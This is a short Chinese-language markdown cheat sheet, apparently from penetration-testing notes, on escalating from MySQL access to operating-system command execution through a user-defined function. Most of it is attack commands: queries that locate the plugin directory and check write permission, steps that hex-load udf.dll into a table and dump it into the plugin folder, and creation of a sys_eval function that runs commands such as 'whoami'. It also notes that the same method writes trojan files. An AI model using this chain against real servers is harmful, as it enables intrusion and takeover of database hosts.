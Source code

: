 ## MySql

#### 1. 查看mysql信息

<br/>

查看应用架构：`select @@version_compile_os, @@version_compile_machine;`

![截图](pic/f25bedfc28c16e4d0a9f374dbbbbcdb5.png)

<br/>

查看数据目录：`select @@datadir;`

![截图](pic/0e9c8147047643c4b4cf2642169891ad.png)

<br/>

查看版本：`select version();`

![截图](pic/fd49d415b198a08d51c96f40a85fbd3d.png)

<br/>

查看插件目录：`select @@plugin_dir;`  `show variables like '%plugin%';`

![截图](pic/6998c239488d35884924f3ac497f0a89.png)

<br/>

查看是否有写权限：`show global variables like '%secure%';`

![截图](pic/ab3641be7bba10e17a6591e68a4b7817.png)

<br/>

#### 2. 写入文件

写入文本到指定文件：`select '111' into dumpfile 'C:\\1.txt';`  （需要注意目录是否存在并有权限）

> outfile 函数：可以导出多行数据
> 
> dumpfile 函数：只能导出一行数据

<br/>

创建临时表：`create table udftemp(data longblob);`

将udf.dll文件进行二进制编辑，然后复制十六进制文本。

将十六进制文本插入到临时表：`insert into udftemp(data) values (0x十六进制);` （注意要加0x）

再将数据dump到插件目录下：`select data from udftemp into dumpfile "C:\\phpStudy\\PHPTutorial\\MySQL\\lib\\plugin\\udf.dll";`

只要能写入文件，就可以使用此方式写入任意文件包括木马文件。

<br/>

#### 3. 创建函数

`create function sys_eval returns string soname 'udf.dll';`

<br/>

执行命令：`select sys_eval('whoami');`

<br/>

<br/>

mssql帐户：`sa` 或者 `系统管理员administrator`